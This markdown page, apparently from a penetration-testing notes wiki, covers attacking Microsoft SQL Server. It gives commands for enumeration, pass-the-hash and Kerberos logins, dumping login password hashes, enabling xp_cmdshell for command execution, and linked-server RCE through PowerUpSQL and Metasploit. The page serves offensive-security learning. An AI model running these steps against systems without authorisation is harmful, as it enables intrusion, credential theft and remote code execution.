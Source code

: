 ```yaml
---
label: MSSQL Abuse
---
```


# MSSQL Abuse

## MSSQL Authentication

There are two options of authentication settings possible to set in SQL Server:

1. Windows Authentication
2. Windows Authentication + SQL Server Authentication (mixed)

**SQL Server Authentication** involves setting up a classic login and password for the user's DB. During setup the default `sa` account is created and password must be set. The explicitly provided user’s credentials are validated through the information stored in the master database. It's way more limited than Windows Authentication and it's not recommended approach.

In **Windows authentication**, the user should first authenticate himself within AD domain. SQL Server authenticates users through the Windows security token. It doesn't require to provide credentials explicitly. Windows Authentication is the **default authentication method** when an SQL Server is installed.

{/*TODO: sa vs dbo accounts vs MSSQL Service Account*/}

## Enumeration

Windows (PowerUpSQL module):

```powershell
# Enumerate SQL servers in the current domain
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate local SQL instances
Get-SQLInstanceLocal | Get-SQLServerInfo
```

Linux:

```bash
# Ask for SQL instances running on the target host
impacket-mssqlinstance $target_host
```

## Connection

After connecting to MSSQL Server, we are able to execute SQL Queries. This often involves the ability to execute code on the system. [Full list of further exploitation here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).

> **NOTE**: It might be worth to check different domain credentials to verify which account has access to MSSQL Server.

Windows (PowerUpSQL module):

```powershell
# Execute SQL query using SQL Server Auth
Get-SQLQuery -Username $user -Password $password -Instance $SQL_Server_FQDN -Query "$mssql_query"

# Execute SQL query using Windows Auth
Get-SQLQuery -Instance $SQL_Server_FQDN -Query "$mssql_query"
```

Linux:

```bash
# Using SQL Server Authentication
impacket-mssqlclient $user:$password@$host

# Using Windows Auth with password
impacket-mssqlclient -windows-auth $domain/$user:$password@$host

# Using Windows Auth with NT hash
impacket-mssqlclient -windows-auth $domain/$user@$host -hashes :$nt_hash

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-mssqlclient $hostname -k -no-pass -dc-ip $dc_ip
```

## Basic queries

```bash
# Show current DB user
select user_name();

# Show databases. Default: master, model, msdb, tempdb
select name from sys.databases;

# Switch database context
use $db;

# Show all tables from database
select table_name from information_schema.tables;

# Show all DB users (SQL_LOGIN type)
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, sp.is_disabled from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id order by sp.name
```

## Security checks

```bash
# Perform multiple security checks (credentials required)
msfconsole
> use admin/mssql/mssql_enum
```

## Command Exection

Functions like `xp_cmdshell` are disabled in Microsoft SQL Server by default. If a user has appropriate permission, it can enable these features.

```sql
-- Reconfigure MSSQL settings
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute command
EXECUTE xp_cmdshell 'whoami';
```

## Linked servers

Any user regardless of their privilege level is allowed to use the preconfigured database links.

Windows (PowerUpSQL module):

```powershell
# Enumerate database links
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Verbose

# RCE with Windows Auth (current security contex)
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Query "exec master..xp_cmdshell 'whoami'"

# RCE with SQL Server Auth
Get-SQLServerLinkCrawl -Instance $SQL_Server_FQDN -Username $username $password $password -Query "exec master..xp_cmdshell 'whoami'"


Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
```

Linux:

```bash
msfconsole
> use exploit/windows/mssql/mssql_linkcrawler
> set rhost $SQL_Server_IP
> set username $username
> set password $password
```

{/*TODO: SVC hash stealing*/}

## References

- [Netspi, *SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!*](https://www.netspi.com/blog/technical/network-penetration-testing/how-to-hack-database-links-in-sql-server/)
- [Quest, *SQL Server authentication vs. Windows authentication: Which to use and when*](https://blog.quest.com/sql-server-authentication-vs-windows-authentication-which-to-use-and-when/)
